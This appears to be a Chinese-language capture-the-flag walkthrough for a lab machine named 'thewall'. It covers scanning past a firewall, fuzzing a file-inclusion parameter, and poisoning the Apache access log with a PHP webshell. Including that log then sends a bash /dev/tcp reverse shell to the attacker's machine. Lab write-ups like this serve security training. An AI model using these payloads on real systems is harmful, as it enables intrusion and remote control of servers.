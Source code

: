 
|   |   |   |
|---|---|---|
|thewall|easy|Akamai  防火墙、绕过wall、fuzz、文件包含利用、exiftool提权、sudo提权、ssh私钥利用|

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238 
```

22，80
### 目录扫描

由于目标靶场安装了Akamai  防火墙，正常的扫描会被拦截。所以使用gobuster扫描的时候增加延时和线程控制
```css
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.18.238 -x php -e --delay 1s -t 1 


http://192.168.18.238/includes.php
```
这里扫描出来了一个文件包含名字的文件，尝试对其进行fuzz 参数。这里发现任何访问的响应都是200和长度为2，所以还需要设置排除项
```c
wfuzz -c --hc=404 --hh=2 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.18.238/includes.php?FUZZ=/etc/passwd'


000217299:   200        28 L     41 W       1460 Ch    "display_pag“
```

得到传入的参数为display_page


# GETSHELL
通过bp 爆破了发现利用访问日志记录。

那我们可以尝试写入webshell到日志，然后取包含它

```c
┌──(kali㉿kali)-[~]
└─$ nc 192.168.18.238 80
GET <?php system($_GET['cmd']); ?>

http://192.168.18.238/includes.php?display_page=/var/log/apache2/access.log&cmd=bash -i >& /dev/tcp/192.168.44.128/9001 0>&1
```
